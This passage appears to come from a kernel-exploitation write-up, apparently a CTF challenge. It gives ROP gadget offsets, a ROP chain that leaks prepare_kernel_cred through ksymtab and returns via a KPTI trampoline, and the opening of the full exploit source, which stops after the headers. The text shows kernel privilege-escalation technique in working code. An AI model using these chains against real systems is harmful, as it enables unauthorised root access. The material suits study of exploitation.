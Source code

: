 It turned out that lots of functions are not rearranged, at least all gadgets we need.

```c
gadget1 = base + 0x6370; //  pop rdi; ret;
gadget2 = base + 0x4d11; //  pop rax; ret;
gadget3 = base + 0x4aad; //  mov rax, qword ptr [rax + 0x10]; pop rbp; ret;
ksymtab_commit_creds = base + 0xf87d90;
kpti_gadget = base + 0x200f10 + 0x16; //  swapgs_restore_regs_and_return_to_usermode()
ksymtab_prepare_kernel_cred = base + 0xf8d4fc;
```

Allright, now we can do ROPs after leaking kernel image base address and canary!

For example, we use gadgets to move value_offset to rax in get_addr(). In leak1(), we get the content of rax and compute address of prepare_kernel_cred.

```c
void get_addr(){
    char buf[0x150];
    memset(buf, '\x00', 0x150);
    unsigned long long *ropchain = (long long unsigned *)buf;
    int i = 16;
    ropchain[i++] = canary;
    ropchain[i++] = 0;
    ropchain[i++] = 0;
    ropchain[i++] = 0;
    ropchain[i++] = gadget2;
    ropchain[i++] = ksymtab_prepare_kernel_cred - 0x10;
    ropchain[i++] = gadget3;
    ropchain[i++] = 0;
    ropchain[i++] = kpti_gadget;
    ropchain[i++] = 0;
    ropchain[i++] = 0;
    ropchain[i++] = leak1;
    ropchain[i++] = tf.cs;
    ropchain[i++] = tf.eflags;
    ropchain[i++] = tf.rsp;
    ropchain[i++] = tf.ss;
    printf("[*] Never reach! try to read from kernel, return %ld \n", write(fd, buf, 0x150));
}

void leak1(){
         __asm__(
                "mov tmp_store, rax;"
        );
        prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
        printf("[*] prepare_kernel_cred: %p\n", prepare_kernel_cred);
        get_addr2();
}
```

The rest is the same, here is the full exploits.

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/types.h>
#include <string.h>

#define KERNCALL __attribute__((regparm(3)))

void* (*prepare_kernel_cred)(void*) KERNCALL;
void* (*commit_creds)(void*) KERNCALL;

```